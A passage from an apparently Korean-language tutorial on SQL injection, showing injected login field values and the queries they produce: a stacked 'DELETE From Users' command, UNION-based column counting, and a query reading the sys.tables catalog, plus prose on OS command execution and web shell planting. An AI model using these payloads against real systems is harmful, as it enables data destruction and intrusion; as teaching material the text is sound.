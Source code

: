 또한, 이를 응용하여 두 개 이상의 명령어를 연속으로 실행시킬 수 있다.

```sql
# 세미콜론을 이용하여 여러개의 구문 실행
[ 외부 입력값 ]
UserID: admin' ; DELETE From Users--
Password: 1234

[ 실행되는 쿼리문 ]
Select * From Users Where UserID = 'admin' ; DELETE From Users -- And Password='1234'
```

<br/>

### 고의적 에러 유발 후 정보 획득

UNION을 이용하여 원본 쿼리가 반환하는 컬럼의 수를 알아낸다.

```sql
[ 외부 입력값 ]
UserID: test' UNION SELECT 1,1,1,1 --
Password: 1234

[ 실행되는 쿼리문 ]
Select * From Users Where UserID = 'test' UNION SELECT 1,1,1,1 -- And Password='1234'
```

> 에러 페이지 컨트롤을 하지 않으면 클라이언트에게 에러를 보여준다. 이를 이용하여 컬럼을 알아낼 수 있다.

또한 알아낸 컬럼 수를 기반으로 시스템 테이블의 정보를 조회할 수도 있다.

```sql
Select * 
From Users 
Where UserID = 'test' 
UNION 
  SELECT name, object, 1,1 
  FROM sys.tables 
  # 시스템 정보를 담은 테이블은 데이터베이스마다 다르다. 
  # 중요한것은 이와 같은 쿼리로 테이블을 관리하는 테이블에서 정보를 추출할 수 있다는 것이다.
-- And Password='123'
```

<br/>

### 시스템 명령어 실행

MS SQL 서버의 경우 프로시저를 이용하여 DB조회 결과에 프로그램 실행 결과를 포함시킬 수 있는데, 

이를 이용하여 운영체제 명령어를 실행시킬 수 있다.

이외에도 조회결과를 파일로 저장하는 기능 등에 웹쉘을 삽입하여 공격할 수 있다.

<br/>

## Blind SQL 인젝션
